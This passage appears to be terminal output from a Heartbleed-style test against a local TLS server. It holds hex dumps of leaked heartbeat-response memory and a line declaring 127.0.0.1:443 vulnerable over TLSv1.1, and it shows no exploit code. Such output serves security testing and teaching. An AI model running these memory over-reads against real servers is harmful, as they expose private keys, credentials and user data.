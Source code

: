 ```bash
  0000: 02 FF FF 08 03 01 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

[-] Connecting to 127.0.0.1:443 using TLSv1.1
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.1
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 02 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
```